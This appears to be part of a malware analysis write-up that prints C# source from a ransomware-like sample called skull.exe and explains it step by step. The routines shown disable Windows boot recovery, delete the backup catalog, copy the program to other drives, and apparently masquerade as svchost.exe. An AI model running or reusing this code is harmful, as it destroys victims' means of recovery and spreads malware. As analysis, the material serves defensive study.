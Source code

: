 - delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair.

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup. 


```cs
private static string spreadName = "skull.exe";
```


```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```
